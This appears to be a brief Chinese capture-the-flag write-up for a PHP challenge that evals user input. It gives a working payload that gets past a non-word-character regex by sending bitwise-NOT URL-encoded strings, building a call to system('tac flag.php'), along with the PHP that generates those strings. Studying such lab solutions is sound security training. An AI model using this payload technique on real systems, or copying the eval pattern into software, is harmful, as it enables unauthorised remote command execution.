

# 知识点
# 思路
```python
<?php

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```
```python
?v1=1&v2=2&v3=-(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)-
取反构造 动态函数调用 
1-phpinfo()-2 或者 1+phpinfo+1 这种形式函数能够正常调用

取反方法
echo urlencode(~("system"));
echo "<br>";
echo urlencode(~("tac flag.php"));
```

